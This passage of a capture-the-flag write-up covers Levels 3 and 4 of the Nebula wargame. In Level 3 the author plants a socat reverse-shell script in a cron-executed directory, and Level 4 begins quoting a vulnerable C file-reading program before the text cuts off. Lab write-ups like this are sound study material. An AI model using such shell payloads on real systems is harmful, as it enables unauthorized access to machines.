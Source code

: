 ![201](/assets/images/Nebula/201.png)

## Level 3 ##
This time we aren't given a binary, but a bash script that is run as a cronjob:

![301](/assets/images/Nebula/301.png)

This script just executes every file inside ```writable.d```, which means we could make it execute a bind shell to our reverse shell.
Let's write the following bash script inside of a file in that directory:
```
#!/bin/bash

socat TCP:localhost:6969 EXEC:"/bin/bash -li"
```

Now let's quickly start up our listener and catch the bind shell

![302](/assets/images/Nebula/302.png)

## Level 4 ##
Another binary, another vulnerability!

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
    printf("%s [file to read]\n", argv[0]);
    exit(EXIT_FAILURE);
  }

```
